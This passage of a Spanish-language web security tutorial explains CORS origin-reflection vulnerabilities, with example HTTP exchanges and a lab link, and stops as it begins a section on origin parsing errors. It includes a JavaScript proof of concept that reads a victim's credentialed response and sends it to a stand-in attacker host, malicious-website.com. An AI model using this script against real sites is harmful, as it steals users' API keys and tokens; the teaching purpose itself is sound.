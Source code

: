 Algunas `aplicaciones` necesitan proporcionar `acceso` a `múltiples dominios`. Mantener una `lista de dominios permitidos` requiere `esfuerzo continuo`, y cualquier `error` podría `interrumpir la funcionalidad`. Por ello, `algunas aplicaciones permiten acceso desde cualquier dominio`

Un método para implementar esto consiste en `leer la cabecera Origin` de las solicitudes e `incluir en la respuesta una cabecera` que indique que el `origen solicitante está permitido`. Por ejemplo, consideremos una `aplicación` que `recibe` la siguiente `solicitud`:

```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

Y posteriormente, `responde` así:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Estas `cabeceras` indican que se permite el `acceso desde el dominio solicitante (malicious-website.com)` y que las solicitudes `cross-origin` pueden incluir `cookies (Access-Control-Allow-Credentials: true)`, por lo que se procesarán dentro de la `sesión del usuario`

Dado que la `aplicación refleja orígenes arbitrarios` en la cabecera `Access-Control-Allow-Origin`, esto significa que absolutamente `cualquier dominio` puede `acceder` a los `recursos` del `dominio vulnerable`. Si la respuesta contiene `información sensible` como una `clave API` o un `token CSRF`, podríamos obtener estos datos utilizando el siguiente `script` en nuestro `sitio web`:

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get', 'https://vulnerable-website.com/sensitive-victim-data', true);
req.withCredentials = true;
req.send();

function reqListener() {
    location = '//malicious-website.com/log?key=' + this.responseText;
};
```

En este `laboratorio` podemos ver como `aplicar` esta `técnica`:

- CORS vulnerability with basic origin reflection - [https://justice-reaper.github.io/posts/CORS-Lab-1/](https://justice-reaper.github.io/posts/CORS-Lab-1/)

### Errores al parsear las cabeceras Origin

Algunas aplicaciones que admiten el `acceso desde múltiples orígenes` lo hacen utilizando una `whitelist de orígenes permitidos`. Cuando se recibe una `solicitud CORS`, el `origen proporcionado` se compara con la `whitelist` y si el `origen` aparece en la `whitelist`, se `refleja en la cabecera Access-Control-Allow-Origin` para que se `conceda` el `acceso`. Por ejemplo, la aplicación recibe una `solicitud` como esta:
